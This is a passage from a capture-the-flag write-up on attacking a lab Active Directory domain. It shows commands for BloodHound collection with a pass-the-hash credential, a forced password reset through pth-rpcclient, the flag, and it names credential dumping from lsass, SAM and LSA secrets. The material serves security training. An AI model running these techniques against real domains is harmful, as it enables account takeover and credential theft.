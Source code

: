 [Bloodhound.py](https://github.com/fox-it/BloodHound.py) execution with user C:
```
$ python bloodhound.py -u Валерий --hashes 00000000000000000000000000000000:BE5C60EC1E9ED48B1ACB5C87D555C6E2 -d CONTI.RU -dc DC1.CONTI.RU -ns 10.0.20.11 -c All
```

A path from the owned user `CONTI.RU\ВАЛЕРИЙ` (user C) to `CONTI.RU\ЗИНАИДА` (let's call him user D), a local admin of `PC1.CONTI.RU` stands out. Indeed, user C has a `GenericAll` permission on user D, which allows password reset:
![BloodHound attack path](/assets/breizhctf-22-bloodhound-path.png)

We perform the password reset via `pth-rpcclient` and `setuserinfo2` RPC call:
```
$ pth-rpcclient -U CONTI.RU/Валерий%00000000000000000000000000000000:BE5C60EC1E9ED48B1ACB5C87D555C6E2 //10.0.20.11

rpcclient $> setuserinfo2 ЗИНАИДА 23 'TipiHackWasH3re'
E_md4hash wrapper called.
E_deshash wrapper called.
```

From this point, we can connect to `PC1.CONTI.RU` with `CONTI.RU\ЗИНАИДА` and get the first flag on the desktop:
![SMBClient first flag](/assets/breizhctf-22-first-flag.png)

```
$ cat flag.txt    
BZHCTF{i_hope_you_love_playing_with_cyrillic}
```

### Second part

We are local administrator of `PC1.CONTI.RU`, we now want to get domain administrator privileges. We execute post-exploitation tools on `PC1.CONTI.RU` to gather more information: dump lsass memory with procdump, SAM dump, LSA secrets, DPAPI, etc.
